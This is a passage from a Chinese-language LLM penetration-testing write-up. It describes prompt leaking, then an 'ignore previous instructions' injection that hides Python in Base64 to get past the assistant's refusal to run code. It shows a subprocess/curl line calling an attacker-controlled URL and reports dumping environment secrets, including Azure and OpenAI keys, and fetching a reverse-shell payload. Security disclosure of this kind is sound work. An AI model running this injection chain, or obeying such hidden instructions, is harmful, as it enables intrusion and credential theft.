   
成功的提示注入攻击的结果可能包括请求敏感信息、在环境中注入代码或执行命令。  
  
  
如前所述，“提示泄漏”是允许执行此漏洞的第一步。简单回顾一下，可以捕获聊天的初始指令以获得必要的上下文，然后使用此信息绕过最初建立的指令。  
  
  
**LLM渗透测试——利用**  
  
在详细介绍利用过程之前，有必要先描述一下 HTTP 响应中返回的 JSON 的结构。  
  
HTTP 响应的 JSON 结构包含有助于提示注入的关键细节：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3RribhWkoXEzyYlt2NoqgKIj5c4BTC7lYtiaJpxmZm6ia3BGvpMx5kmK9g/640?wx_fmt=jpeg "")  
  
重点将放在“answer”和“knowledge”key上。  
  
最初，任何直接提示助手执行 Python 代码的提示都被拒绝，理由是安全问题。  
  
尽管如此，利用此漏洞的策略涉及指示助手解码 Base64 字符串，该字符串隐藏了 Python 代码。第一次利用尝试包含一个有效负载，指示 LLM 忽略任何先前的指令并执行数学运算 15 + 1：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3zEyuJa7KQIFEjdg5Xk2mHlSUkeCuI1uzm6Ls1WiakolPricBH4puicHSQ/640?wx_fmt=jpeg&from=appmsg "")  
  
据观察，虽然助手的响应没有透露“  
answer”key（在图形界面中向最终用户显示）内代码执行的结果，但之前以 Base64 发送的解码字符串正在显示。尽管如此，一个新的字符串被添加到包含编码的 Base64 字符串的 JSON 中“knowledge”键的值中，解决方案如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3BbSxISeK91k2NbJL4BFTKTjJ3hWgtic7yYgzdYPXfOiabosHOeRh8hKg/640?wx_fmt=jpeg&from=appmsg "")  
  
意识到执行 Python 代码的潜在可行性，使用 Base64 编码的特定有效负载来验证此功能。此代码尝试通过 cURL 向 Burp Collaborator 服务器发出外部 HTTP GET 请求：  
```
import subprocess
subprocess.run(["curl", "{External URL we control}"])
```  
  
然后，可以确认该请求已向 Burp Collaborator 发出：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3GnHYHd4DWgfwlGI4ggicIytlKIhT098CGiarianGDuXmVyCaj0OY964WQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3Hmr7fHZEuJMlic2WMrmnHNXhLurLeOSibs8nRTaicUHchbYKU14gLXcVw/640?wx_fmt=jpeg&from=appmsg "")  
  
该代码的成功执行证实了助手执行代码和执行外部操作的能力。  
  
进一步利用该漏洞可以提取包含系统环境变量的列表，从而泄露敏感数据，例如 Azure 数据库密码和各种服务的 API 密钥，其中包括 OpenAI 的 API 密钥（LLM 集成中使用的密钥）：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3lMhBQgZibBm4yRS5IoHN1s3G79s3Al8Dj6nP54zYd42D7icNYQYLagww/640?wx_fmt=jpeg&from=appmsg "")  
  
环境变量被公开，提供了对系统配置和潜在漏洞的深入了解：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3rAAlbQ6CTJOibCBBkILIezkNJwXF4wuCKYWl4lGQibYoicbJfiaZrbIQicQ/640?wx_fmt=jpeg&from=appmsg "")  
  
**获取反向shell**  
  
因此，还可以使用 Python 的子进程模块 Python 获取反向 Shell 来执行系统命令。从下面可以看出，有效负载是采用 Base64 编码的。通过解码，可以注意到 Python 代码的存在，在解释时，该代码通过使用 cURL 工具发出 HTTP 请求来下载包含精心设计的 Linux Payload 的二进制文件，用于获取反向 shell，然后将其保存在“/ tmp”文件夹：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeJIvibbysyqt2JE6CCjNCV3ibkW7N3lZQHl59mPYvJfriasHJThQnM9UpibicvIInTB5s7ZR0TVCI89BQ/640?wx_fmt=jpeg&from=appmsg "")  
  